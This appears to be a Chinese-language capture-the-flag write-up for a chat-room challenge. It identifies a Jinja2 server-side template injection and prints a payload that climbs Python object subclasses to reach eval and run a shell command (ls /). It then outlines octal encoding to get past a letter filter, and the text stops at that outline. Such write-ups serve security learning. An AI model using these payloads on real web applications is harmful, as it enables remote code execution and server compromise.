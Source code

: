

![image-20240904160859490](https://img-blog.csdnimg.cn/img_convert/9a361455f2d2d4e8ebe744825320343c.png)

## CNSS娘の聊天室



![image-20240810220046553](https://img-blog.csdnimg.cn/img_convert/1f431691c8a78aae7527c62a7e885960.png)

开题，输入什么输出什么，怀疑是SSTI



![image-20240810220120021](https://img-blog.csdnimg.cn/img_convert/c03f33a5ff99a391358adca416c6eb0d.png)

后端是python，测一下Jinja2



![image-20240810220211444](https://img-blog.csdnimg.cn/img_convert/d9515ac5275a7b893dfb86a8b597f21a.png)

```has-numbering
{{7*7}}

```

还真有



![image-20240810220234856](https://img-blog.csdnimg.cn/img_convert/bc628c0ac125a0c659ec773b0c142b23.png)

试一试最原始的payload。看看是不是上过滤了

```has-numbering
{{''.__class__.__bases__[0].__subclasses__()[166].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}

```

发现英文被过滤了。。。只过滤了26个字母，英文符号没事



![image-20240810220500827](https://img-blog.csdnimg.cn/img_convert/64cfcfda51c88830f76df213ef03de15.png)

思路是用八进制代替英文字母，unicode和十六进制都会有英文出现。

原始payload：

```has-numbering
{{''.__class__.__bases__[0].__subclasses__()[133].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}

```

转八进制

```has-numbering
.__class__转为['XXXXXX']
[0]不动
()不动
['eval']转为['XXXXXX']
('__import__("os").popen("ls /").read()')转为('XXXXXX')

```
